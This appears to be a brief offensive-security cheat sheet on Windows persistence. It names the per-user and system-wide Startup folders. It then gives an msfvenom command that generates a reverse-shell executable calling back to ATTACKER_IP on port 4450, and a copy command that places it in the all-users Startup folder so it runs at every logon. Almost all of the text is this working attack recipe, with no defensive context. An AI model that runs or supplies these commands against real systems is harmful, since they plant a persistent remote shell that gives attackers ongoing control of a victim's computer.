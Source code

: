 User startup folder:
C:\\Users\\<your_username>\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup 

Universal startup folder
C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp

Create a maliciouse executable and copy it to the startup folder

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe

	copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
	
